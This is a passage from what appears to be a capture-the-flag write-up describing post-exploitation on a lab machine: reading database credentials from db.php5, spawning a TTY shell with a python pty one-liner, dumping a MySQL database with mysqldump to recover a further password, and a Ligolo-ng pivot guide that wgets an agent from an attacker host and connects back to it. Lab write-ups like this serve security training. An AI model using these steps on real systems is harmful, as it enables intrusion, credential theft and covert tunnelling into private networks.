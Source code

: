 When I have shell as www-data I always do down in directories (cd ..) and search for interesting files/directories, same this time I found db.php5 with credentials

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914145907.png)

theseus iamkingtheseus
Upgrading to TTY shell and trying su but wrong password, next taught is password may be to mysql 

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914150416.png)

Unfortunately mysql in not installed quick check /usr/bin before port forwarding with ligolo. And I got something to save time mysqldump

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914151001.png)

few tries with syntax and I got it db name as often is hostname

```
mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914151143.png)

Th3s3usW4sK1ng

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914151249.png)

We got it, now let's grab user flag

## Port forward with Ligolo-ng

Anyway you can do it via ligolo port forward if you prepare for oscp: I will write quick guide

on kali
```
./proxy -selfcert
```

on target 
```
wget http://10.10.14.8/ligolo-ng-agent-linux_amd64
./ligolo-ng-agent-linux_amd64 -connect 10.10.14.8:11601 -ignore-cert
```

on kali
```
session   #1
ifcreate --name ligolo0
tunnel_start --tun ligolo0
route_add --name ligolo0 --route 240.0.0.1/32
route_list
```
